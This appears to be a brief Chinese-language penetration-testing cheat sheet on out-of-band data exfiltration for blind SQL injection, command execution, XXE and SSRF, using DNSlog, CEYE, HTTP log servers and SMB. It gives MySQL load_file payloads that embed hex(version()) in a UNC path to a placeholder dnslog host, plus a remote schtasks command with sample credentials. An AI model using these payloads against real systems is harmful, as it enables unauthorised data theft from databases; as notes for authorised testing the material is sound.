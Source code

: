 ![image-20220220215019683](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202150034.png)

### **数据外带**

​		sql注入和命令执行或xxe或ssrf, 凡是看不到回显的地方需要利用数据外带,

DNSlog和smb服务和HTTPlog或CEYE外带数据.

​		DNSlog和 SMB : mysql, mssql

​		HTTPLog: oracle, mssql

​		1. 需要有一个域名, 可以在[这里](http://dnslog.cn/)获取一个临时的 或在 [ceye](http://ceye.io/) 申请一个

​		2. docker 拉取dnslog 的镜像, 然后安装, 也可以

​		3. httplog服务器外带数据

​				python3 -m http.server 9000 	# 开启一个http服务

```mysql
# SMB 服务器外带数据
​	1. 需要在服务器上开启smb服务
​	2. 连接指定ip地址的服务器 schtasks /create /s \\192.168.xxx.xxx /v /u admin /p 1234 /tn
​	3. select load_file('\\\\smb.xx.dmslog.cn服务器\\\xxx')
​	4. select load_file(concat('\\\\\\','  hex(version())  ', '.mysql.xxx.dnslog.xx\\xxx')) 数据外带
​	5. 只能在windows上利用
```
